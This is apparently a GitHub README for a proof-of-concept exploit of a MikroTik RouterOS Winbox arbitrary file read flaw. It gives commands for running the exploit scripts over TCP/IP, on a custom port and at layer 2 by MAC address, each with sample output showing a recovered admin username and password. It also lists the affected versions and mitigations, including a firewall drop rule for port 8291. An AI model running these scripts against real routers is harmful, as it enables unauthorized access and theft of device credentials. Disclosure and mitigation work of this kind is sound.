 # WinboxExploit
Proof of Concept of Winbox Critical Vulnerability  
Arbitrary file read

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use

Note that this script will NOT run with Python2.x. Use only Python 3+

Winbox (TCP/IP)
```
$ python3 WinboxExploit.py 172.17.17.17

User: admin
Pass: Th3P4ssWord

```  

Winbox (TCP/IP) On non default Port
```
$ python3 WinboxExploitPort.py 172.17.17.17 8900

User: admin
Pass: Th3P4ssWord

``` 

MAC server Winbox (Layer 2)  
You can extract files even if the device doesn't have an IP address :-)
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa

```
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!
